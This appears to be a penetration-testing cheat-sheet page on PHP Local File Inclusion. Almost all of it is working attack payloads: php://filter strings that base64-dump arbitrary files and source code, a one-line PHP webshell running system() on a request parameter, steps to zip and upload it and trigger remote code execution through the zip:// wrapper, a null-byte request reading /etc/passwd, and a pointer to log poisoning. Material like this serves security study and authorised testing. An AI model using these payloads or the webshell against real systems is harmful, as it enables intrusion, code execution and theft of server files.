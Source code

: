 ```yaml
---
icon: file-import
description: Local File Inclusion
---
```


# LFI

{% hint style="info" %}
### <mark style="color:purple;">`PHP Filters & Wrappers`</mark>

#### <mark style="color:red;">`Filter Inclusion`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}

{% code title="Exfiltrate the source code" %}
```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endcode %}

#### <mark style="color:red;">`Remote Code Execution`</mark>

<mark style="color:purple;">The</mark> <mark style="color:orange;">**`zip://`**</mark> <mark style="color:purple;">stream wrapper can be used in specific attack scenarios to potentially execute malicious code.</mark>

* <mark style="color:purple;">First, create the</mark> <mark style="color:orange;">**`webshell`**</mark><mark style="color:purple;">:</mark>

```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```

* <mark style="color:purple;">Second,</mark> <mark style="color:orange;">**`zip`**</mark> <mark style="color:purple;">the file:</mark>

```sh
zip shell.zip cmd.php
```

* <mark style="color:purple;">Important to mention that the file extension can be different from</mark> <mark style="color:orange;">**`.zip`**</mark><mark style="color:purple;">, the wrapper will still execute the code inside.</mark>
* <mark style="color:purple;">Third, upload the file and once is done, use the wrapper:</mark>

{% code overflow="wrap" %}
```php
zip://uploads/PATH/TO/FILE%23cmd&cmd=id
```
{% endcode %}

* <mark style="color:purple;">Have in mind that</mark> <mark style="color:orange;">**`%23`**</mark> <mark style="color:purple;">is the URL encoded version of</mark> <mark style="color:orange;">**`#`**</mark> <mark style="color:purple;">and is used to reference a file inside the</mark> <mark style="color:orange;">**`zip`**</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">The</mark> <mark style="color:orange;">`%00`</mark> <mark style="color:purple;">Null Terminator</mark>

<mark style="color:purple;">Is often used to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**terminate a string prematurely,**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">effectively allowing attackers to manipulate the filename or file extension.</mark>

```url
http://10.10.10.80/index.php?op=/etc/passwd%00
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">`Chaining`</mark>

* <mark style="color:purple;">If it's possible to access logs try</mark> [<mark style="color:orange;">**`Log Poisoning`**</mark>](log-poisoning.md)&#x20;
{% endhint %}

